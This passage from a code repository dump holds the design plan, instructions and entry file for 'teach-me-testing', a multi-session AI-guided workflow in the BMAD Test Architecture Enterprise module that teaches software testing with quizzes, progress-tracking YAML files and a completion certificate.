1. Load relevant TEA docs just-in-time
2. Present teaching content (mostly autonomous)
3. Knowledge validation quiz (interactive)
4. Generate session notes artifact
5. Update progress file
6. Return to session menu (continue or exit)

## Progress Tracking

Your progress is automatically saved after each session:

- **Progress file:** `{test_artifacts}/teaching-progress/{your-name}-tea-progress.yaml`
- **Session notes:** `{test_artifacts}/tea-academy/{your-name}/session-{N}-notes.md`
- **Certificate:** `{test_artifacts}/tea-academy/{your-name}/tea-completion-certificate.md`

## Quiz Scoring

- **Passing threshold:** ≥70%
- **On failure:** Option to review content or continue anyway
- **Attempts:** 3 attempts per question before showing correct answer

## Completion

Complete all 7 sessions to receive your TEA Academy completion certificate with:

- Session completion dates and scores
- Skills acquired checklist
- Learning artifacts paths
- Recommended next steps

## Tips for Success

1. **Set aside dedicated time** - Each session requires focus (30-90 min)
2. **Take notes** - Session notes are generated, but add your own insights
3. **Apply immediately** - Practice concepts on your current project
4. **Explore fragments** - Session 7 has 42 knowledge fragments to deep-dive
5. **Share with team** - Help others learn by sharing your experience

## Customization by Role

The workflow adapts examples based on your role:

- **QA:** Practical testing focus, workflow usage
- **Dev:** Integration perspective, TDD approach
- **Lead:** Architecture decisions, team patterns
- **VP:** Strategy, ROI, quality metrics

## Troubleshooting

### Progress file corrupted

- Workflow detects corruption and offers fresh start
- Backup file created automatically

### Missing TEA docs

- Workflow uses Web-Browsing fallback for external frameworks
- Primary source is always local docs

### Session interrupted

- Progress auto-saved after quiz completion
- Resume from session menu on next run

## Support

- **Documentation:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/>
- **Knowledge Fragments:** <https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise/tree/main/src/agents/bmad-tea/resources/knowledge>
- **Issues:** Report via TEA module repository
```

## File: `src/workflows/testarch/bmad-teach-me-testing/workflow-plan-teach-me-testing.md`
```markdown
---
stepsCompleted:
  [
    'step-01-discovery',
    'step-02-classification',
    'step-03-requirements',
    'step-04-tools',
    'step-05-plan-review',
    'step-06-design',
    'step-07-foundation',
  ]
created: 2026-01-27
status: FOUNDATION_COMPLETE
approvedDate: 2026-01-27
designCompletedDate: 2026-01-27
foundationCompletedDate: 2026-01-28
---

# Workflow Creation Plan

## Discovery Notes

**User's Vision:**
Create an ongoing learning companion that teaches testing progressively through a structured curriculum. Users at the company (and beyond) lack testing knowledge regardless of experience level - from hobbyist beginners to experienced VPs. The TEA (Test Architecture Enterprise) module has extensive documentation (~24k lines, 200 files, 9 workflows, 42 knowledge fragments), but manual teaching doesn't scale. This workflow solves that by providing self-paced, structured learning with state persistence across multiple sessions.

**Who It's For:**

- New QA engineers (primary onboarding use case)
- Developers who need testing knowledge
- Anyone at the company requiring testing fundamentals through advanced practices
- Scalable to entire team without manual teaching

**What It Produces:**

- Multi-session learning journey (7 sessions, 30-90 min each)
- Session-by-session progress tracking via persistent state file
- Learning artifacts: session notes, test files, reports, completion certificate
- Personalized learning paths customized by role (QA vs Dev vs Lead vs VP)
- Knowledge validation through quizzes after each session
- Resume capability - users can pause and continue across days/weeks

**Key Insights:**

- Content volume (~24k lines) makes single-session teaching infeasible
- State persistence is critical for multi-session continuity
- Just-in-time content loading per session keeps context manageable
- First use case: new QA onboarding completing in 1-2 weeks
- Workflow must reference and integrate TEA docs and knowledge base extensively
- Users learn at their own pace without requiring instructor availability

**Technical Architecture Requirements:**

- 7-session curriculum structure
- State file: tracks progress, scores, completed sessions, artifacts, next recommended session
- Role-based path customization
- Knowledge validation gates between sessions
- Artifact generation per session
- Integration with TEA module documentation and knowledge base

## Classification Decisions

**Workflow Name:** teach-me-testing
**Target Path:** {project-root}/src/workflows/testarch/bmad-teach-me-testing/

**4 Key Decisions:**

1. **Document Output:** Yes (produces progress files, session notes, artifacts, completion certificate)
2. **Module Affiliation:** TEA module (9th workflow in test architecture)
3. **Session Type:** Continuable (multi-session learning over 1-2 weeks)
4. **Lifecycle Support:** Tri-modal (Create + Edit + Validate for future-proofing)

**Structure Implications:**

- **Tri-modal architecture:** Needs `steps-c/`, `steps-e/`, `steps-v/` folders
- **Continuable workflow:** Requires `step-01-init.md` with continuation detection + `step-01b-continue.md` for resuming
- **State tracking:** Uses `stepsCompleted` in progress file frontmatter
- **Document templates:** Progress tracking YAML, session notes markdown, completion certificate
- **Module integration:** Access to TEA module variables, docs paths, knowledge base paths
- **Data folder:** Shared data for curriculum structure, role paths, session content mappings

## Requirements

**Flow Structure:**

- Pattern: Mixed (non-linear between sessions, linear within sessions, branching at start only)
- Phases: Initial assessment → Session selection (non-linear) → Session execution (linear: teach → quiz → artifact) → Completion
- Estimated steps: Init + Continue + Assessment + 7 Session steps + Final Polish/Certificate generation = ~10-12 core step files
- Session jumping: Users can skip to any session based on experience level
- Within session: Strictly linear progression through teaching content

**User Interaction:**

- Style: Mixed (mostly autonomous teaching with collaborative decision points)
- Decision points:
  - Role/experience assessment (entry)
  - Session selection (menu-driven, can jump around)
  - Quiz answers (validation gates)
  - Continue to next session or exit
- Checkpoint frequency: At session completion (save progress, offer continue/exit)
- Teaching approach: AI presents content, user absorbs - minimal interruption once learning

**Inputs Required:**

- Required:
  - User role (QA, Dev, Lead, VP)
  - Experience level (beginner, intermediate, experienced)
  - Learning goals (fundamentals, TEA-specific, advanced patterns)
- Optional:
  - Existing project for practical examples
  - Specific pain points (flaky tests, slow tests, hard to maintain)
- Prerequisites:
  - TEA module installed
  - Access to TEA docs and knowledge base
  - Understanding of time commitment (30-90 min per session)

**Output Specifications:**

- Type: Multiple document types
- Format: Mixed formats
  - Progress file: Structured YAML with specific schema (sessions, scores, artifacts, completed_date, next_recommended)
  - Session notes: Free-form markdown built progressively per session
  - Completion certificate: Structured format with completion data
- Sections:
  - Progress file has fixed schema
  - Session notes vary by session content
  - Certificate has standard completion fields
- Frequency:
  - Progress file: Updated after each session
  - Session notes: Generated per session
  - Certificate: Generated at final completion

**Success Criteria:**

- User completes their chosen sessions (might be 1, might be all 7)
- Knowledge validated through quizzes (≥70% passing threshold)
- Artifacts generated successfully (progress file exists, session notes created, learning tracked)
- User can apply knowledge (write their first good test following TEA principles)
- Onboarding velocity achieved (new QAs complete core sessions within 1-2 weeks)
- Scalability proven (multiple team members learn without requiring instructor time)

**Instruction Style:**

- Overall: Mixed (prescriptive for structure, intent-based for teaching)
- Prescriptive for:
  - Initial assessment (consistent role/experience classification)
  - Quiz questions (need exact validation logic)
  - Progress tracking (exact state file updates)
  - Session navigation (clear menu structure)
- Intent-based for:
  - Teaching sessions (AI adapts explanations naturally)
  - Example selection (AI chooses relevant TEA brain/knowledge/docs_legacy/knowledge fragments)
  - Artifact generation (AI synthesizes learning into notes)
  - Role-flavored content (AI adjusts examples based on user role)

## Tools Configuration

**Core BMAD Tools:**

- **Party Mode:** Included (optional via A/P menu) - Use for collaborative exploration when the learner wants a lighter format
- **Advanced Elicitation:** Included (optional via A/P menu) - Use for deeper discovery or clarification during sessions
- **Brainstorming:** Excluded - Not needed for structured curriculum delivery

**LLM Features:**

- **Web-Browsing:** Included - Use case: Safety net for framework updates (Cypress, Jest, newer Playwright versions) and frameworks not covered in TEA docs. Motto: "Only reach out when you don't have the info"
- **File I/O:** Included - Operations: Read TEA docs (/brain/knowledge/docs_legacy/_.md), read knowledge fragments (/src/agents/bmad-tea/resources/knowledge/_.md), write progress file ({user}-tea-progress.yaml), write session notes, write completion certificate
- **Sub-Agents:** Excluded - Sessions are linear teaching steps handled by TEA agent, not complex specialized tasks requiring delegation
- **Sub-Processes:** Excluded - Learning is sequential (one session at a time), no parallel processing needed

**Memory:**

- Type: Continuable workflow with persistent state
- Tracking:
  - `stepsCompleted` array in progress YAML
  - Session completion tracking (id, status, completed_date, score, artifacts)
  - Progress metrics (completion_percentage, next_recommended)
  - Progress file structure:
    ```yaml
    user: { user_name }
    role: { qa/dev/lead/vp }
    sessions: [{ id, status, completed_date, score, artifacts }]
    completion_percentage: { percent }
    next_recommended: { session-id }
    ```
  - Continuation support via step-01b-continue.md with progress dashboard

**External Integrations:**

- None - Self-contained within TEA module, no external databases/APIs/MCP servers needed

**Installation Requirements:**

- None - All selected tools are built-in (Web-Browsing and File I/O are standard LLM features)
- User preference: N/A (no installations required)

## Workflow Design

### Complete Flow Overview

**Entry → Init (check for progress) → [New User: Assessment | Returning User: Dashboard] → Session Menu (hub) → Sessions 1-7 (loop back to menu) → Completion Certificate**

### Step Structure (CREATE mode - steps-c/)

**Total: 12 step files**

#### Phase 1: Initialization & Continuation

1. **step-01-init.md** (Init Step - Continuable)
   - Goal: Welcome user, check for existing progress file, explain workflow, create initial progress if new
   - Type: Init (Continuable) - checks for `{user}-tea-progress.yaml`, routes to step-01b if exists
   - Menu: Auto-proceed (Pattern 3) - no user menu
   - Logic: Checks for existing progress → routes to step-01b if exists, otherwise creates new and proceeds to step-02

2. **step-01b-continue.md** (Continuation Step)
   - Goal: Load existing progress, show dashboard with completion status, route to session menu
   - Type: Continuation - reads `stepsCompleted`, displays progress percentage
   - Menu: Auto-proceed (Pattern 3) - no user menu
   - Logic: Shows progress dashboard → auto-routes to step-03-session-menu

#### Phase 2: Assessment & Path Selection

3. **step-02-assess.md** (Middle Step - Standard)
   - Goal: Gather role (QA/Dev/Lead/VP), experience level, learning goals, optional pain points
   - Type: Middle (Standard) auto-proceed
   - Menu: Auto-proceed (Pattern 3) - no user menu
   - On completion: Saves assessment to progress file → loads step-03-session-menu

4. **step-03-session-menu.md** (Branch Step - Hub)
   - Goal: Present 7 sessions with descriptions + completion status, allow non-linear selection
   - Type: Branch Step (custom menu: 1-7, X for exit)
   - Menu: Custom branching (Pattern 4)
   - Display: [1-7] Select session | [X] Exit
   - Logic:
     - 1-7: Routes to corresponding session step
     - X: If all sessions complete → routes to step-05-completion; if incomplete → saves and exits
   - **This is the hub - all sessions return here**

#### Phase 3: Session Execution (7 Sessions)

5-11. **step-04-session-[01-07].md** (Middle Steps - Complex)

- Each session follows same pattern:
  - Loads relevant TEA docs just-in-time
  - Presents teaching content (mostly autonomous)
  - Knowledge validation quiz (collaborative)
  - Generates session notes artifact
  - Updates progress file
  - Returns to step-03-session-menu
- Menu: Standard A/P/C (Pattern 1) - users might want Advanced Elicitation
- On C: Saves session notes, updates progress (mark complete, update score), returns to hub

**Sessions:**

- **session-01**: Quick Start (30 min) - TEA Lite intro, run automate workflow
- **session-02**: Core Concepts (45 min) - Risk-based testing, DoD, philosophy
- **session-03**: Architecture (60 min) - Fixtures, network patterns, framework
- **session-04**: Test Design (60 min) - Risk assessment workflow
- **session-05**: ATDD & Automate (60 min) - ATDD + Automate workflows
- **session-06**: Quality & Trace (45 min) - Test review + Trace workflows
- **session-07**: Advanced Patterns (ongoing) - Menu-driven knowledge fragment exploration

#### Phase 4: Completion

12. **step-05-completion.md** (Final Step)
    - Goal: Generate completion certificate, final progress update, congratulate
    - Type: Final - no nextStepFile, marks workflow complete
    - Menu: None (final step)
    - Logic: Generates certificate, displays congratulations, workflow ends

### Interaction Patterns

- **Auto-proceed steps:** step-01-init, step-01b-continue, step-02-assess
- **Standard A/P/C:** step-04-session-[01-07]
- **Custom branching:** step-03-session-menu (hub)
- **No menu:** step-05-completion (final)

### Data Flow

**Progress File:** `{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml`

**Schema:**

```yaml
user: { user_name }
role: { qa/dev/lead/vp }
experience_level: { beginner/intermediate/experienced }
learning_goals: [list]
pain_points: [optional list]
started_date: 2026-01-27
last_session_date: 2026-01-27

sessions:
  - id: session-01-quickstart
    status: completed
    completed_date: 2026-01-27
    score: 90
    notes_artifact: '{test_artifacts}/tea-academy/{user_name}/session-01-notes.md'
  - id: session-02-concepts
    status: in-progress
    started_date: 2026-01-27
  # ... sessions 03-07

sessions_completed: 1
total_sessions: 7
completion_percentage: 14
next_recommended: session-02-concepts

stepsCompleted: ['step-01-init', 'step-02-assess', 'step-04-session-01']
lastStep: 'step-04-session-01'
lastContinued: '2026-01-27'
```

**Data Flow Per Step:**

- **step-01-init:** Creates initial progress YAML if new
- **step-01b-continue:** Reads progress file, updates lastContinued
- **step-02-assess:** Updates role, experience, goals, pain_points
- **step-03-session-menu:** Reads sessions array (display status)
- **step-04-session-[N]:** Reads progress (for role), writes session notes, updates sessions array
- **step-05-completion:** Reads all sessions data, writes certificate

**Error Handling:**

- Quiz failure (<70%): Offer review or continue anyway
- Missing TEA docs: Use Web-Browsing fallback
- Corrupted progress: Backup and offer fresh start
- Session interrupted: Auto-save after quiz completion

**Checkpoints:**

- After assessment complete
- After each quiz completion
- After each session artifact generation
- On user exit from session menu

### File Structure

```
teach-me-testing/
├── workflow.md                              # Main entry point
├── workflow.yaml                            # Workflow metadata
│
├── steps-c/                                 # CREATE mode (12 steps)
│   ├── step-01-init.md
│   ├── step-01b-continue.md
│   ├── step-02-assess.md
│   ├── step-03-session-menu.md
│   ├── step-04-session-01.md
│   ├── step-04-session-02.md
│   ├── step-04-session-03.md
│   ├── step-04-session-04.md
│   ├── step-04-session-05.md
│   ├── step-04-session-06.md
│   ├── step-04-session-07.md
│   └── step-05-completion.md
│
├── steps-e/                                 # EDIT mode (2 steps)
│   ├── step-e-01-assess-workflow.md
│   └── step-e-02-apply-edits.md
│
├── steps-v/                                 # VALIDATE mode (1 step)
│   └── step-v-01-validate.md
│
├── data/                                    # Shared data files
│   ├── curriculum.yaml
│   ├── role-paths.yaml
│   ├── session-content-map.yaml
│   ├── quiz-questions.yaml
│   └── tea-resources-index.yaml
│
├── templates/                               # Document templates
│   ├── progress-template.yaml
│   ├── session-notes-template.md
│   └── certificate-template.md
│
├── instructions.md
└── checklist.md
```

### Role and Persona Definition

**AI Role:** Master Test Architect and Teaching Guide

**Expertise:**

- Deep knowledge of testing principles (risk-based, test pyramid, types)
- Expert in TEA methodology (9 workflows, architecture patterns, 42 knowledge fragments)
- Familiar with Playwright, test automation, CI/CD
- Teaching pedagogy: progressive learning, knowledge validation, role-based examples

**Communication Style:**

- **Teaching:** Clear, patient, educational - adapts complexity by role
- **Quizzes:** Encouraging, constructive feedback, non-judgmental
- **Navigation:** Clear, concise, shows completion status prominently
- **Tone:** Encouraging but not patronizing, technical but accessible

**Teaching Principles:**

1. Just-in-time learning (load content when needed)
2. Active recall (quiz after teaching)
3. Spaced repetition (reference earlier concepts)
4. Role-flavored examples (same concept, different contexts)
5. Artifact generation (learners keep notes)

### Validation and Error Handling

**Output Validation:**

- Progress file: Schema, status, score (0-100), date, artifact paths
- Session notes: Frontmatter present, content not empty (min 100 chars)
- Certificate: All 7 sessions complete, valid dates, user info present

**User Input Validation:**

- Role: Must be QA, Dev, Lead, or VP
- Experience: beginner, intermediate, or experienced
- Quiz answers: 3 attempts before showing correct answer
- Session selection: Must be 1-7 or X

**Error Recovery:**

- Corrupted progress: Backup, offer fresh start
- Missing docs: Web-Browsing fallback
- Quiz failure: Review or continue options
- Interrupted session: Auto-save progress

**Success Criteria:**

- Session complete: Content presented, quiz passed, notes generated, progress updated
- Workflow complete: All 7 sessions done, avg score ≥70%, artifacts created, certificate generated

### Special Features

**Conditional Logic:**

- Session menu routing: Check if all complete → route to completion or show menu
- Quiz scoring: If ≥70% proceed, if <70% offer review

**Branch Points:**

- Initial entry: Progress exists? → continue vs new
- Experience-based recommendations: Beginner → session 1, Experienced → session 7

**Integration with TEA Workflows:**

- Session 1: Demonstrates [TA] Automate
- Session 3: May run [TF] Framework
- Session 4: Runs [TD] Test Design
- Session 5: Runs [AT] ATDD + [TA] Automate
- Session 6: Runs [RV] Test Review + [TR] Trace

**Role-Based Content:**

- QA: Practical testing focus
- Dev: Integration and TDD focus
- Lead: Architecture and patterns focus
- VP: Strategy and metrics focus

**Session 7 Special Handling:**

- Exploratory menu-driven deep-dive into 42 knowledge fragments
- Organized by categories (Testing Patterns, Playwright Utils, Config/Governance, etc.)
- Links to GitHub for browsing

**Content Sources (Triple Reference System):**

- Local files: `/brain/knowledge/docs_legacy/*.md`, `/src/agents/bmad-tea/resources/knowledge/*.md`
- Online docs: `<https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/`>
- GitHub fragments: Direct links to knowledge fragment source files

### Design Summary

**Complete:** 12-step CREATE workflow with hub pattern
**Continuable:** Progress file tracks state across sessions
**Non-linear:** Users jump to any session from hub
**Role-flavored:** Same concepts, role-specific examples
**Triple content:** Local + online + GitHub sources
**Web-Browsing:** Fallback for missing/updated docs
**Auto-save:** After each session completion
**Tri-modal:** Create (12 steps) + Edit (2 steps) + Validate (1 step)

## Foundation Build Complete

**Created:** 2026-01-28

**Folder Structure:**

```
teach-me-testing/
├── workflow.md                           ✓ Created
├── steps-c/                              ✓ Created (empty, to be populated)
├── steps-e/                              ✓ Created (empty, to be populated)
├── steps-v/                              ✓ Created (empty, to be populated)
├── data/                                 ✓ Created (empty, to be populated)
├── templates/                            ✓ Created
│   ├── progress-template.yaml            ✓ Created
│   ├── session-notes-template.md         ✓ Created
│   └── certificate-template.md           ✓ Created
├── instructions.md                       ✓ Created
└── checklist.md                          ✓ Created
```

**Location:** {external-project-root}/\_bmad-output/bmb-creations/workflows/teach-me-testing/

**Configuration:**

- Workflow name: teach-me-testing
- Continuable: Yes (multi-session learning)
- Document output: Yes (Progress YAML, Session notes MD, Certificate MD)
- Mode: Tri-modal (Create + Edit + Validate)
- Module: TEA (Test Architecture Enterprise)

**Files Created:**

1. **workflow.md**
   - Tri-modal routing logic (Create/Edit/Validate)
   - Configuration loading from TEA module
   - Step-file architecture principles
   - Initialization sequence

2. **templates/progress-template.yaml**
   - Complete progress tracking schema
   - 7 sessions defined
   - Session status tracking (not-started/in-progress/completed)
   - stepsCompleted array for continuation
   - Progress metrics (completion_percentage, next_recommended)

3. **templates/session-notes-template.md**
   - Session metadata
   - Key concepts, objectives, takeaways
   - TEA resources referenced
   - Quiz results
   - Practical examples

4. **templates/certificate-template.md**
   - Completion certificate structure
   - All 7 sessions with scores
   - Skills acquired checklist
   - Learning artifacts paths
   - Next steps recommendations

5. **instructions.md**
   - How to run the workflow
   - Session structure and flow
   - Progress tracking details
   - Troubleshooting guide

6. **checklist.md**
   - Quality validation checklist
   - Foundation quality checks
   - Step file quality standards
   - Data file quality requirements
   - Completion criteria

**Next Steps:**

- Step 8: Build step-01-init.md (initialization with continuation detection)
- Step 9: Build step-01b-continue.md (continuation/resume logic)
- Step 10+: Build remaining 10 step files (assessment, session menu, 7 sessions, completion)
- Populate data/ folder with curriculum, role paths, session content map, quizzes, resources index

## Step 01 Build Complete

**Created:** 2026-01-28

**Files:**

- `steps-c/step-01-init.md` ✓
- `steps-c/step-01b-continue.md` ✓

**Step Configuration:**

- **Type:** Continuable (multi-session learning)
- **Input Discovery:** No (self-contained teaching)
- **Progress File:** `{test_artifacts}/teaching-progress/{user_name}-tea-progress.yaml`
- **Menu Pattern:** Auto-proceed (no user menu)

**step-01-init.md:**

- Checks for existing progress file
- If exists → routes to step-01b-continue
- If not → creates new progress from template, proceeds to step-02-assess
- Initializes stepsCompleted array
- Creates complete session tracking structure (all 7 sessions)

**step-01b-continue.md:**

- Loads existing progress file
- Updates lastContinued timestamp
- Displays progress dashboard with completion status
- Shows session indicators (✅ completed, 🔄 in-progress, ⬜ not-started)
- Auto-routes to step-03-session-menu (hub)

**Frontmatter Compliance:**

- All variables used in step body
- Relative paths for internal references
- No hardcoded paths
- Follows frontmatter standards

**Next Steps:**

- Build step-02-assess.md (assessment)
- Build step-03-session-menu.md (hub)
- Build 7 session steps (step-04-session-01 through step-04-session-07)
- Build step-05-completion.md (certificate generation)

## Step 02 Build Complete

**Created:** 2026-01-28

**Files:**

- `steps-c/step-02-assess.md` ✓

**Step Configuration:**

- **Type:** Middle Step (Standard) auto-proceed
- **Next Step:** step-03-session-menu
- **Menu Pattern:** Auto-proceed (Pattern 3) - no user menu

**step-02-assess.md:**

- Gathers role (QA/Dev/Lead/VP) with validation
- Gathers experience level (beginner/intermediate/experienced) with validation
- Gathers learning goals (required, validated)
- Gathers pain points (optional)
- Updates progress file with all assessment data
- Provides experience-based session recommendations
- Updates stepsCompleted array with 'step-02-assess'
- Routes to step-03-session-menu (hub)

**Frontmatter Compliance:**

- All variables used in step body
- Relative paths for internal references
- No hardcoded paths
- Follows frontmatter standards

**Remaining Steps:** 9 more to build

- step-03-session-menu (hub with branching)
- step-04-session-01 through step-04-session-07 (7 teaching sessions)
- step-05-completion (certificate generation)

## Step 03 Build Complete

**Created:** 2026-01-28

**Files:**

- `steps-c/step-03-session-menu.md` ✓

**Step Configuration:**

- **Type:** Branch Step (Hub) with custom menu (1-7, X)
- **Routes To:** Any of 7 sessions OR completion OR exit
- **Menu Pattern:** Custom branching (Pattern 4)

**step-03-session-menu.md:**

- Loads progress file to get session completion status
- Displays all 7 sessions with status indicators (✅ completed, 🔄 in-progress, ⬜ not-started)
- Shows completion percentage and scores
- Provides session descriptions and durations
- Recommends next session based on progress
- Detects when all 7 sessions complete → routes to completion
- Allows non-linear session selection (jump to any session)
- Exit option (X) saves progress and ends workflow
- This is the HUB - all sessions return here
- No stepsCompleted update (routing hub, not content step)

**Routing Logic:**

- 1-7 → Routes to corresponding session step
- X → Saves and exits workflow
- All complete → Auto-routes to step-05-completion

**Frontmatter Compliance:**

- All 7 session file references used in routing logic
- Completion file reference used for all-done scenario
- Progress file loaded for status display
- Relative paths for all step files

**Remaining Steps:** 8 more to build

- step-04-session-01 through step-04-session-07 (7 teaching sessions)
- step-05-completion (certificate generation)

## Step 04-Session-01 Build Complete

**Created:** 2026-01-28

**Files:**

- `steps-c/step-04-session-01.md` ✓

**Step Configuration:**

- **Type:** Middle Step (Complex) with A/P/C menu
- **Session:** Quick Start (30 min)
- **Next Step:** Returns to step-03-session-menu (hub)
- **Menu Pattern:** Standard A/P/C (Pattern 1)

**step-04-session-01.md:**

- Session 1: Quick Start - TEA Lite intro, run automate workflow
- Updates progress (status: in-progress at start, completed at end)
- Teaching content: What is TEA, TEA Lite, Automate workflow, engagement models
- Role-adapted examples (QA/Dev/Lead/VP perspectives)
- 3-question quiz with validation (passing: ≥70%)
- Quiz retry option if failing (<70%)
- Generates session notes using template with all quiz results
- Updates progress file (status, score, notes_artifact, completion_percentage)
- Updates stepsCompleted array with 'step-04-session-01'
- Returns to session menu hub (step-03)

**Teaching Topics:**

- What is TEA and why it exists
- 9 workflows + 42 knowledge fragments
- Quality standards (Definition of Done)
- Risk-based testing (P0-P3 matrix)
- TEA engagement models (Lite/Solo/Integrated/Enterprise/Brownfield)
- Automate workflow conceptual overview

**TEA Resources Referenced:**

- TEA Overview, TEA Lite Quickstart, Automate Workflow docs
- Online URLs provided for further reading

**Remaining Steps:** 7 more to build

- step-04-session-02 through step-04-session-07 (6 more teaching sessions)
- step-05-completion (certificate generation)

## Step 04-Session-02 Build Complete

**Created:** 2026-01-28
**Files:** `steps-c/step-04-session-02.md` ✓
**Session:** Core Concepts (45 min) - Testing as Engineering, Risk-based testing (P0-P3), TEA Definition of Done
**Pattern:** Middle Step (Complex) with A/P/C menu, returns to hub
**Teaching:** Philosophy, risk matrix, quality standards with role-adapted examples
**Quiz:** 3 questions on P0-P3, hard waits, self-cleaning tests
**Knowledge Fragments:** test-quality.md, probability-impact.md

**Remaining:** 6 steps (sessions 03-07 + completion)

## Step 04-Session-03 Build Complete

**Created:** 2026-01-28
**Files:** `steps-c/step-04-session-03.md` ✓
**Session:** Architecture & Patterns (60 min)
**Topics:** Fixture composition, network-first patterns, data factories, step-file architecture
**Knowledge Fragments:** fixture-architecture.md, network-first.md, data-factories.md
**Quiz:** 3 questions on fixtures, network-first, step-file architecture

## Step 04-Session-04 Build Complete

**Created:** 2026-01-28
**Files:** `steps-c/step-04-session-04.md` ✓
**Session:** Test Design (60 min)
**Topics:** Test Design workflow, risk/testability assessment, coverage planning, test priorities matrix
**Knowledge Fragments:** test-levels-framework.md, test-priorities-matrix.md
**Quiz:** 3 questions on test design, risk calculation, P0 coverage

## Step 04-Session-05 Build Complete

**Created:** 2026-01-28
**Files:** `steps-c/step-04-session-05.md` ✓
**Session:** ATDD & Automate (60 min)
**Topics:** ATDD workflow (red-green TDD), Automate workflow, component TDD, API testing patterns
**Knowledge Fragments:** component-tdd.md, api-testing-patterns.md, api-request.md
**Quiz:** 3 questions on TDD red phase, ATDD vs Automate, API testing

## Step 04-Session-06 Build Complete

**Created:** 2026-01-28
**Files:** `steps-c/step-04-session-06.md` ✓
**Session:** Quality & Trace (45 min)
**Topics:** Test Review workflow (5 dimensions), Trace workflow, quality metrics
**Quiz:** 3 questions on quality dimensions, release gates, metrics

## Step 04-Session-07 Build Complete

**Created:** 2026-01-28
**Files:** `steps-c/step-04-session-07.md` ✓
**Session:** Advanced Patterns (ongoing)
**Format:** Menu-driven exploration of 42 knowledge fragments
**Categories:** Testing Patterns (9), Playwright Utils (11), Config/Governance (6), Quality Frameworks (5), Auth/Security (3)
**No Quiz:** Exploratory session, score: 100 on completion
**Special:** Repeatable, user can explore multiple fragments, returns to hub

## Step 05-Completion Build Complete

**Created:** 2026-01-28
**Files:** `steps-c/step-05-completion.md` ✓
**Type:** Final Step (no next step)
**Purpose:** Verify all 7 sessions complete, generate certificate, final progress update, celebrate
**Certificate:** Includes all session scores, skills acquired, learning artifacts, next steps
**Final:** Updates progress (certificate_generated: true, completion_date)
**No Menu:** Workflow ends here

---

## CREATE Mode Build Complete (12 Steps)

**All CREATE mode steps built:** ✓

1. step-01-init.md - Initialize with continuation detection
2. step-01b-continue.md - Resume with progress dashboard
3. step-02-assess.md - Role/experience assessment
4. step-03-session-menu.md - Session selection hub
5. step-04-session-01.md - Quick Start
6. step-04-session-02.md - Core Concepts
7. step-04-session-03.md - Architecture & Patterns
8. step-04-session-04.md - Test Design
9. step-04-session-05.md - ATDD & Automate
10. step-04-session-06.md - Quality & Trace
11. step-04-session-07.md - Advanced Patterns
12. step-05-completion.md - Certificate generation

**Remaining:**

- Data files (curriculum.yaml, role-paths.yaml, session-content-map.yaml, quiz-questions.yaml, tea-resources-index.yaml)
- EDIT mode steps (2 steps)
- VALIDATE mode steps (1 step)

---

## Data Files Build Complete

**Created:** 2026-01-28

**Files:**

1. `data/curriculum.yaml` ✓ - 7-session structure, learning paths by experience, completion requirements
2. `data/role-paths.yaml` ✓ - Role customizations for QA/Dev/Lead/VP with focus areas and teaching adaptations
3. `data/session-content-map.yaml` ✓ - Maps sessions to TEA docs, knowledge fragments, online URLs, workflows
4. `data/quiz-questions.yaml` ✓ - Question bank for sessions 1-6 (session 7 is exploratory, no quiz)
5. `data/tea-resources-index.yaml` ✓ - Comprehensive index of 32 docs + 42 knowledge fragments with GitHub links

**All 5 data files complete.**

---

## EDIT Mode Build Complete

**Created:** 2026-01-28

**Files:**

1. `steps-e/step-e-01-assess-workflow.md` ✓ - Identify what to edit, gather edit requirements
2. `steps-e/step-e-02-apply-edits.md` ✓ - Apply modifications with user approval, validate integrity

**All 2 EDIT mode steps complete.**

---

## VALIDATE Mode Build Complete

**Created:** 2026-01-28

**Files:**

1. `steps-v/step-v-01-validate.md` ✓ - Comprehensive quality validation against BMAD standards, generates validation report

**All 1 VALIDATE mode step complete.**

---

## 🏆 WORKFLOW BUILD COMPLETE

**Status:** ✅ 100% COMPLETE

**Total Files Created:** 24 files

### Foundation (6 files)

- workflow.md
- instructions.md
- checklist.md
- workflow-plan-teach-me-testing.md
- (plus 3 templates)

### Templates (3 files)

- progress-template.yaml
- session-notes-template.md
- certificate-template.md

### CREATE Mode (12 step files)

- step-01-init.md
- step-01b-continue.md
- step-02-assess.md
- step-03-session-menu.md
- step-04-session-01.md through step-04-session-07.md (7 sessions)
- step-05-completion.md

### Data Files (5 files)

- curriculum.yaml
- role-paths.yaml
- session-content-map.yaml
- quiz-questions.yaml
- tea-resources-index.yaml

### EDIT Mode (2 step files)

- step-e-01-assess-workflow.md
- step-e-02-apply-edits.md

### VALIDATE Mode (1 step file)

- step-v-01-validate.md

---

## Next Action Required

**DEPLOYMENT:** Move workflow from staging to TEA module

**Source (Staging):**
`{external-project-root}/_bmad-output/bmb-creations/workflows/teach-me-testing/`

**Target (Production):**
`{project-root}/src/workflows/testarch/bmad-teach-me-testing/`

**Command:**

```bash
cp -r {external-project-root}/_bmad-output/bmb-creations/workflows/teach-me-testing \
      {project-root}/src/workflows/testarch/
```

**After deployment:**

1. Update TEA agent menu to add [TMT] Teach Me Testing
2. Test the workflow: `bmad run teach-me-testing`
3. Validate: `bmad run teach-me-testing -v`
4. Document in TEA module README

---

**Workflow Creation: COMPLETE** ✅
**Ready for Deployment:** YES
**Validation Status:** Not yet validated (run -v mode after deployment)
```

## File: `src/workflows/testarch/bmad-teach-me-testing/workflow.md`
```markdown
---
name: bmad-teach-me-testing
description: 'Teach testing progressively through structured sessions. Use when user says "lets learn testing" or "I want to study test practices"'
web_bundle: true
---

# Teach Me Testing - TEA Academy

**Goal:** Provide self-paced, multi-session learning that teaches testing fundamentals through advanced practices, scalable to entire teams without requiring instructor time.

**Your Role:** In addition to your name, communication_style, and persona, you are also a Master Test Architect and Teaching Guide collaborating with learners at all levels. This is a partnership, not a lecture. You bring expertise in TEA methodology, testing principles, and teaching pedagogy, while the learner brings their role context, experience, and learning goals. Work together to build their testing knowledge progressively.

**Meta-Context:** This workflow uses continuable architecture with state persistence across sessions. Users can pause and resume anytime, jump to any session based on experience, and learn at their own pace over 1-2 weeks.

---

## WORKFLOW ARCHITECTURE

This uses **step-file architecture** for disciplined execution:

### Core Principles

- **Micro-file Design**: Each step is a self-contained instruction file that is part of an overall workflow that must be followed exactly
- **Just-In-Time Loading**: Only the current step file is in memory - never load future step files until told to do so
- **Sequential Enforcement**: Sequence within the step files must be completed in order, no skipping or optimization allowed
